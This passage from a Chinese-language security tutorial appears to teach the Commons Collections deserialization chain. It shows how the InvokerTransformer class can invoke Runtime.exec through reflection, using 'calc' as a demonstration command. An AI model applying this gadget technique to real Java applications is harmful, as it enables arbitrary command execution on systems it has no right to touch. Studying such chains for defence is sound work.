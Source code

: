 [![](assets/1700127979-78fdb9ebdf5c77a46cf5b48c72d8feff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116154815-7fd9b762-8454-1.png)

我们看到红框的这里，这不就是我们的反射的使用吗，如果我们可以控制这些参数，我们就可以实现任意命令的执行。

然后我们再看这些参数是怎么赋值的

```bash
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }
```

我们从字面意思也知道 String methodName 是方法名，Class\[\] paramTypes 是参类型，Object\[\] args 就是参数了

我们之前学反射的时候，我们是这样利用 Runtime 类的

```bash
Runtime r=Runtime.getRuntime();
 Class c=r.getClass();
 Method m=c.getMethod("exec", String.class);
 m.invoke(r,"calc");
```

同理可得

```bash
Runtime r=Runtime.getRuntime();
InvokerTransformer invokerTransformer=new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}); 
invokerTransformer.transform(r);
```
